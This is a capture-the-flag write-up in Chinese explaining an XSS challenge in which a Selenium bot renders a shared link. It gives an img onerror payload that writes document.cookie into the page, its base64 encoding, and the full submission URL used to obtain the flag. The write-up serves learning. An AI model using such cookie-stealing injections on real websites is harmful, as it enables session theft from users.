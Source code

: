 ```python

except Exception as e:
    print('ERROR', type(e))
    import traceback
    traceback.print_exception(*sys.exc_info(), limit=0, file=None, chain=False)
```

发现爬取逻辑是请求我们提供的链接用 selenium 爬取网页内容获得人名，分数并显示在网页的终端上。

如果我们把 result 参数里面的人名改成获得 flag 的 js 代码就行了，selenium 请求这样的链接时，网页会自动解析 js 代码，爬虫就获得了 flag，而不是人名。这样 selenium 爬到的就是 flag 了。

可以利用 XSS 脚本注入修改 result 参数

```html
0:<img src=2 onerror='document.getElementById("greeting").innerHTML=document.cookie;'>
```

浏览器解析这个 img 标签时，找不到路径2的图片，触发 onerror，执行我们注入的 js 代码，将网页上的人名修改为 cookie 里面的 flag 值。自己正常做题的话网页返回的是 base64 编码后的值，所以我们也需要模仿它编码，打开 CyberChef 进行 base64 编码

```
MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4=
```

在题目第二个链接里提交答案

```
http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4=
```

最后得到 flag。

这道题当时也没想出来，主要没学过 XSS，不知道怎么利用回显得到 flag，还有一方面就是没注意 result 后面是 base64 编码，以为只是网页返回的 token。注意多试几次就能注意到 base64 字符串的特征了。

